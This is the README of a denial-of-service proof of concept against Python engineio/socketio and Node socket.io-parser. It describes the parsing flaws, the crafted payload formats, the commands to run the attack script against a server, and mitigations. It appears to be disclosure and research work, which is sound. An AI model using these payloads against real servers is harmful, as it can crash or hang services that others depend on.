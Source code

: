 # kill-engine-io

[Blog post](https://blog.caller.xyz/socketio-engineio-dos/)

DoS [python-engineio](https://github.com/miguelgrinberg/python-engineio) / [python-socketio](https://github.com/miguelgrinberg/python-socketio) / [Flask-SocketIO](https://github.com/miguelgrinberg/Flask-SocketIO) via the long polling transport with a single POST request. Also nodejs [socket.io-parser](https://github.com/socketio/socket.io-parser) can be DoSed via the same transport.

By default engineio's `max_http_buffer_size` is set to [1e8 = 100MB](https://github.com/miguelgrinberg/python-engineio/blob/bb2401354c3b7c3cf6a5577db83cc51ae071836e/engineio/server.py#L84) bytes.
This is the maximum size of a request to the long polling transport.
The comment at [payload.py](https://github.com/miguelgrinberg/python-engineio/blob/bb2401354c3b7c3cf6a5577db83cc51ae071836e/engineio/payload.py#L65)
alludes to a DoS vulnerability.

```
                # extracting the packet out of the payload is extremely
                # inefficient, because the payload needs to be treated as
                # binary, but the non-binary packets have to be parsed as
                # unicode. Luckily this complication only applies to long
                # polling, as the websocket transport sends packets
                # individually wrapped.
```

kill_socket_io.py sends a large payload which tries to abuse this code path
and cause the server to hang on full CPU usage.

The payload contains many small packets (processing is O(n^2) in number of packets).
See [my commit message](https://github.com/bcaller/kill-engine-io/commit/bd5f433335a45ecf1766cc462d0571a56d8f8b4f)
for explanation of non-ASCII character to abuse `encoded_payload.decode('utf-8', errors='ignore')` in versions 3.9.3 and below.

Payload: `2:4¼2:4¼2:4¼2:4¼2:4¼2:4¼...`

Versions above 3.9.3 don't use `errors='ignore'` so we don't put non-ASCII characters in.

Payload `many_tiny_packets`: `2:422:422:422:422:422:42...`

From 3.10.0, the number of packets in a payload was capped at 16 (non-configurable) as a response to my vulnerability report.
An alternative is to send one giant packet with an integer payload:

Payload `giant_packet`: `99999991:42222222222222222222...`

which abuses the socketio protocol [see python-socketio](https://github.com/miguelgrinberg/python-socketio/blob/a839a36fa0fa7f0e5d8976ff47b217f6b1e8a44b/socketio/packet.py#L109).

## NodeJS specifics

The NodeJS implementation of [engineio-parser](https://github.com/socketio/engine.io-parser) appears much faster and less easy to DoS. Node implementations have non-hexadecimal characters in the session id, so you should be able to instantly see if the server is python backed or not.

While faster, the NodeJS implementation can actually be OOMed with the node process exitting with error `FATAL ERROR: Ineffective mark-compacts near heap limit Allocation failed - JavaScript heap out of memory`. With NodeJS, if the ping timeout (default 30s) is exceeded then the processing appears to be cancelled. Therefore, sending a payload which is so large it doesn't reach the memory exhausting step within the ping timeout will not kill the process. It will just waste CPU for 30 seconds. Sending a slightly smaller payload (5e7 worked for me) caused the process to exit.

```
==== JS stack trace =========================================

    0: ExitFrame [pc: 0x5fafab4fc5d]
    1: StubFrame [pc: 0x5fafab50fca]
Security context: 0x3878b7d1d971 <JSObject>
    2: decodeString [0x3bee6a8562b1] [/engineio-test/node_modules/socket.io-parser/index.js:~276] [pc=0x5fafabfaf7e](this=0x21aef10845b1 <JSGlobal Object>,0x1dfe93882e59 <Very long string[49999990]>)
    3: /* anonymous */ [0x3deb4ecca739] [/engineio-test/node_modules/socket.io-parser/index.js:242...

FATAL ERROR: Ineffective mark-compacts near heap limit Allocation failed - JavaScript heap out of memory

Writing Node.js report to file: report.20191002.184025.9877.001.json
Node.js report completed
 1: 0x953b10 node::Abort() [node]
 2: 0x9547f4 node::OnFatalError(char const*, char const*) [node]
 3: 0xb32bee v8::Utils::ReportOOMFailure(v8::internal::Isolate*, char const*, bool) [node]
 4: 0xb32e24 v8::internal::V8::FatalProcessOutOfMemory(v8::internal::Isolate*, char const*, bool) [node]
 5: 0xf32452  [node]
 6: 0xf32558 v8::internal::Heap::CheckIneffectiveMarkCompact(unsigned long, double) [node]
 7: 0xf3ec78 v8::internal::Heap::PerformGarbageCollection(v8::internal::GarbageCollector, v8::GCCallbackFlags) [node]
 8: 0xf3f78b v8::internal::Heap::CollectGarbage(v8::internal::AllocationSpace, v8::internal::GarbageCollectionReason, v8::GCCallbackFlags) [node]
 9: 0xf424c1 v8::internal::Heap::AllocateRawWithRetryOrFail(int, v8::internal::AllocationSpace, v8::internal::AllocationAlignment) [node]
10: 0xf0c6f4 v8::internal::Factory::NewFillerObject(int, bool, v8::internal::AllocationSpace) [node]
11: 0x11c2b3e v8::internal::Runtime_AllocateInNewSpace(int, v8::internal::Object**, v8::internal::Isolate*) [node]
12: 0x5fafab4fc5d 
[1]    9877 abort (core dumped)  node serve.js
```

With `many_tiny_packets`, the node process OOMs because of [a 2016 change to socket.io](https://github.com/socketio/socket.io/commit/e60bd5a4da9173acba7553c9e631b79770a8c8be) so that while extracting message packets from a payload, each packet is queued up with a nice closure waiting in a `FixedCircularBuffer` for the next tick before the packet handlers can run. Of course, the next tick doesn't come until after every packet has been queued.

With `many_heartbeats` (`1:21:21:21:21:21:21:21:21:2...`), each ping causes the server to create a pong packet object and add it to a buffer array. These buffered pong responses and their handling cause the OOM.

The `giant_packet` payload attacks [look up id](https://github.com/socketio/socket.io-parser/blob/652402a8568c2138da3c27c96756b32efca6c4bf/index.js#L314).

## Run

### Test server

#### Python

```bash
python3.7 -m venv .env || virtualenv -p `which python3` .env
.env/bin/activate
pip install Flask-SocketIO
# pip install eventlet  # Optional
python serve.py 2>/dev/null
```
With eventlet, a single payload appears to DoS the entire server until processing completes.
Without eventlet, the non-production server remains responsive until the thread pool is exhausted as it launches actual threads.

#### Node

```bash
npm install socket.io
node serve.js
# DEBUG=socket.io* node serve.js  # as an alternative
```
or
```bash
docker build -t socketio -f Dockerfile.node-server .
docker run --rm -p 5000:5000 socketio
```

### Send payload

Send payload using code in kill_socket_io.py.

```bash
python3.7 -m venv .env || virtualenv -p `which python3` .env
.env/bin/activate
pip install requests
python -i kill_socket_io.py  # Start interactive session
```
or
```bash
docker build -t kill-socket-io -f Dockerfile.kill-socket-io .
docker run --rm --network=host -it kill-socket-io
```


Within the interactive console you can run commands like:
```python
x()  # Just saves typing!
attack('http://127.0.0.1:5000', make_payload=many_tiny_packets)
oom_nodejs_all()
oom_nodejs(make_payload=many_heartbeats)
oom_nodejs(make_payload=giant_packet)
```

OR use the CLI:

```
python kill_socket_io.py -h
```

## Survival

* Use SockJS instead of SocketIO
* Set `max_http_buffer_size` to a sensible value
* Improve library performance
* Restrict number of packets per payload (done in python-engineio v3.10.0+, doesn't protect from `giant_packet`)
